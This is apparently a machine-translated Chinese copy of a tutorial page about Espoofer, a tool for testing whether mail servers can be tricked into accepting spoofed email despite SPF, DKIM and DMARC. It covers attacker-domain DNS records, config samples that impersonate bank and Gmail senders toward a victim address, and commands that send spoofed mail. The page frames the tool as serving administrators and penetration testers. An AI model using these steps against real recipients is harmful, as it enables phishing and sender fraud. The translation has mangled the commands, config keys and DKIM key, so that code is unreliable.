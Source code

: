 # Espoofer:一个电子邮件欺骗测试工具，旨在绕过 SPF/DKIM/DMARC

> 原文：<https://kalilinuxtutorials.com/espoofer/>

[![](img//beda10905d8fa07a4aae8ce985d81191.png)](https://blogger.googleusercontent.com/img/a/AVvXsEhZk6uQU9Rnp4XvHsF1A2x1276ElBO_LrqHOCGP38G5EY5q5u1gk1pD-cgry9FMmCywGP2BGW-hEhnt4vmYgtYiwkGyUo-DYRRcaDVuP8sydtI61dSVq5nrSE848x4vLz8nk9E_LEuayGGmBsY73Jd8V8MTDjcE6JAxeR0I9eBtmle7PjpoPyyugWbZ=s728)

***Espoofer*** 是一款开源测试工具，可以绕过电子邮件系统中的 SPF、DKIM 和 DMARC 认证。它有助于邮件服务器管理员和渗透测试人员检查目标电子邮件服务器和客户端是否容易受到电子邮件欺骗攻击或可能被滥用来发送欺骗电子邮件。

![](img//4f86737ff2b7efe471751d2eaab25824.png)

为什么要开发这个工具？

电子邮件欺骗对个人和组织都是一大威胁。为了解决这个问题，现代电子邮件服务和网站采用认证协议(SPF、DKIM 和 DMARC)来防止电子邮件伪造。

我们的最新研究表明，这些协议的实施存在许多安全问题，可以利用这些问题绕过 SPF/DKIM/DMARC 保护。图 1 展示了我们在 Gmail 中绕过 DKIM 和 DMARC 的一种欺骗攻击。有关更多技术细节，请参阅我们的黑帽美国 2020 演讲(带演示视频)或 USENIX 安全 2020 白皮书。

*   黑帽美国 2020 幻灯片(PDF):你不知道是谁发的那封邮件:对邮件发件人认证的 18 次攻击
*   USENIX 安全 2020 论文(PDF):合成杀手:电子邮件发件人身份验证案例研究
    *   杰出论文奖获得者

在本报告中，我们总结了我们发现的所有测试案例，并将其集成到该工具中，以帮助管理员和安全从业者快速识别和定位此类安全问题。如果你做科学研究，请使用下面的引文(点击我)。

**安装**

*   下载该工具

**git 克隆 https://github.com/chenjj/espoofer**

*   安装依赖项

**sudo pip3 安装要求. txt**

**用途**

espoofer 有三种工作模式:*服务器* ('s '，默认模式)*客户端*(' c ')*手动* ('m ')。在*服务器*模式下，espoofer 像邮件服务器一样工作，在接收服务时测试有效性。在*客户端*模式下，espoofer 作为一个电子邮件客户端来测试发送服务的有效性。*手动*模式用于调试目的。

![](img//12bf600b73c8647957c6338d88e71ec4.png)

**服务器模式**

要在服务器模式下运行 espoofer，您需要拥有:1)一个 IP 地址(`**1.2.3.4**`)，其输出端口 25 不会被 ISP 阻止，以及 2)一个域(`**attack.com**`)。

域配置

*   为`**attack.com**`设置 DKIM 公钥

**选择器。_ domain key . attacker . com txt " v = dkim 1；k=rsat=yp = migfma 0 gcsqgsib 3 dqebaquea 4 gndcbikbgqdnjwdrmp/gcbkgqfrzk+LJ 6 xowuqxkaa/Li 1 en 4t 4 sluwiil 6 haqmrsq 8 xfg76 MMX 4 CHN 2 vqvewfh 7 qtvshglywwwrajdq 4 ktlfr/2 ewalritndijofr 2 tpzdrgp 0 nty 6 saktkhqdwrk 3 u 0 SZ mg 7 u 8 L9 ipj 7**

为`**attack.com**`设置 SPF 记录

**attack.com TXT " v = sp f1 ip4:1 . 2 . 3 . 4+全部"**

在 config.py 中配置工具

**config ={
"攻击者 _ 站点":b"attack.com "，# attack.com
"合法 _ 站点 _ 地址":b"admin@bank.com "，# legitimate.com
"受害者 _ 地址":b"victim@victim.com "，# victim@victim.com
" case _ id ":b " server _ a1 ", # server _ a1
}**

您可以使用`**-l**`选项列出所有测试用例的 case_id:

**python3 espoofer.py -l**

您可以在 config.py 中更改 case_id，或者在命令行中使用`**-id**`选项来测试不同的案例:

**python 3 espoofer . py-id server _ a1**

**客户端模式**

要在客户端模式下运行 epsoofer，您需要在目标电子邮件服务上拥有一个帐户。这种攻击利用了某些电子邮件服务无法对从本地 mua 收到的电子邮件进行充分验证的缺陷。例如，`**attacker@gmail.com**`试图冒充`**admin@gmail.com**`。

1.  在 config.py 中配置工具

**config ={
"合法 _ 站点 _ 地址":b"admin@gmail.com "、
"受害者 _ 地址":b"victim@victim.com "、
"case_id": b"client_a1"、
" client _ mode ":{
" sending _ server ":(" SMTP . Gmail . com "，587)、# SMTP 发送服务 ip 和端口
" username ":b " attack @ Gmail . com "、#您的帐户用户名和密码
密码**

您可以使用`**-l**`选项列出所有测试用例的 case_id:

**python3 espoofer.py -l**

注意:`**sending_server**`应该是 SMTP 发送服务器地址，而不是接收服务器地址。

2.  运行该工具来发送欺骗性电子邮件

**python3 espoofer.py -m c**

您可以在 config.py 中更改 case_id 并再次运行它，或者您可以在命令行中使用`**-id**`选项:

**python 3 espoofer . py-m c-id client _ a1**

**手动模式**

以下是手动模式的一个示例:

**python 3 espoofer . py-m m-helo attack.com-m from m@attack.com-rcpt to victim@victim.com-data raw _ msg _ here-IP 127 . 0 . 0 . 1-port 25**

**截图**

1.  测试用例的简要概述。

![](img//50bf57a236f3065c44bf9610cfa180a3.png)[**Download**](https://github.com/chenjj/espoofer)
